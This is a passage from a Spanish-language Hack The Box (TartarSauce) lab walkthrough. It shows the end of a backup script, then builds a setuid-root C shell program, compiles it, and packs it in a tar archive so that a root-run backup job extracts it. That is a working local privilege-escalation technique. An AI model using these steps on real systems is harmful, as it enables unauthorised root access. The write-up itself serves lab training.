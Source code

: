 ```python
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```
Paso 1 en nuestyro kali nos creamos una ruta de directorios /var/www/html con un archivo privesc
```bash
# tree                                  
.
├── privesc
├── privesc.c
├── privesc.tar.gz
└── var
    └── www
        └── html
            └── privesc
```
El archivo privesc es un archivo escrito en .C que compilamos  y damos estos permisos de ejecucion
```bash
# cat privesc.c                                                                                                                                               1 ⚙

int main() {
        setuid(0);
        system("/bin/bash -p");
}
```
Compilado en c
```bash
# gcc -m32 privesc.c -o privesc 
```
Le damos privilegios
```bash
# ls -l 
total 16
---S--Sr-x 1 root root 15524 ago  2 10:10 privesc		chmod 6005 privesc
```
Una vez pasamos de privesc.c al compilado privesc tenemos que comprimir el archivo para que nos quede el privesc.tar.gz
```bash
┌──(root💀pro)-[/home/…/Escritorio/HTB/TartarSauce/scrips]
└─# ls -la
total 36
drwxr-xr-x 3 root root  4096 ago  2 11:38 .
drwxr-xr-x 7 root root  4096 ago  1 10:42 ..
---S--Sr-x 1 root root 15524 ago  2 10:02 privesc
-rw-r--r-- 1 root root    53 ago  2 09:54 privesc.c
-rw-r--r-- 1 root root  2738 ago  2 11:38 privesc.tar.gz
drwxr-xr-x 3 root root  4096 ago  2 10:09 var
```
Comprimios el archivo desde la ruta
```bash
# tar -zcvf privesc.tar.gz var/www/html/        
var/www/html/
var/www/html/privesc
```
